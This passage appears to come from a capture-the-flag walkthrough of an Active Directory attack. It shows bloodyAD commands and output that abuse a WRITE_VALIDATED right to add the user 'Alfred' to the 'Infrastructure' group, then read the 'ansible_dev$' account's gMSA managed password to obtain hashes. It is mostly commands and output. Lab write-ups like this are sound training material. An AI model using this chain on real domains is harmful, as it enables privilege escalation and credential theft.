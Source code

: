 **Output**
```bash
<SNIP>
nTSecurityDescriptor.ACL.3.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.3.Trustee: Alfred
nTSecurityDescriptor.ACL.3.Right: WRITE_VALIDATED
nTSecurityDescriptor.ACL.3.ObjectType: Self
nTSecurityDescriptor.ACL.3.Flags: CONTAINER_INHERIT
</SNIP>
```

`WRITE_VALIDATED` Access Control Entry allows for the following permissions.
- Self-Membership
- Validated-DNS-Host-Name
- Validated-MS-DS-Additional-DNS-Host-Name
- Validated-MS-DS-Behavior-Version
- Validated-SPN

Since we can add ourselves as member of this group let's do so.

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS add groupMember Infrastructure 'Alfred'
```

**Output**
```bash
[+] Alfred added to Infrastructure
```

Now that we are a member of the group `Infrastructure` we should be able to read `ansible_dev$`'s `GMSA Managed Password`

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS get object --resolve-sd 'ansible_dev$'
```

**Output**
```bash
<SNIP>
msDS-GroupMSAMembership.ACL.Type: == ALLOWED ==
msDS-GroupMSAMembership.ACL.Trustee: Infrastructure
msDS-GroupMSAMembership.ACL.Right: GENERIC_ALL
msDS-GroupMSAMembership.ACL.ObjectType: Self
msDS-ManagedPasswordId: AQAAAEtEU0sCAAAAagEAABsAAAAIAAAAc6NtcnDRepr24Tfly34IywAAAAAgAAAAIAAAAHQAbwBtAGIAdwBhAHQAYwBoAGUAcgAuAGgAdABiAAAAdABvAG0AYgB3AGEAdABjAGgAZQByAC4AaAB0AGIAAAA=
</SNIP>
```

So let's read the `GMSA` managed password which should get us Hashes.

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS get object --resolve-sd 'ansible_dev$' --attr msDS-ManagedPassword
```
